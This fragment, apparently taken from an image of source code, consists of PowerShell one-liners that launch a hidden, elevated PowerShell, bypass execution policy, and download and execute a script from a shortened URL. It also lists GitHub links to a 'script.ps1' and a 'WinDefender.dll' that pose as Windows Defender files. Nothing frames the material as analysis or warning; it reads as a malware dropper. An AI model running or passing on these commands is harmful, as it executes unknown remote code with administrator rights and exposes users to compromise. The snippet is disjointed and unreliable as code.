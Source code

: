 powershell -Command "Start-Process powershell -ArgumentList '-ExecutionPolicy Bypass -Command iwr -Uri https://tinyurl.com/yvjzsyk3 -UseBasicParsing | iex' -Verb RunAs  -WindowStyle Hidden"
Start-Sleep -Seconds 60;

-WindowStyle Hidden -Command "Start-Process powershell -ArgumentList '-ExecutionPolicy Bypass -Command iwr -Uri https://tinyurl.com/yvjzsyk3 -UseBasicParsing | iex' -Verb RunAs -WindowStyle Hidden"

https://raw.githubusercontent.com/steamworker/Defender/refs/heads/main/script.ps1
https://tinyurl.com/yvjzsyk3

https://raw.githubusercontent.com/steamworker/Defender/refs/heads/main/WinDefender.dll
https://tinyurl.com/2s35eutk
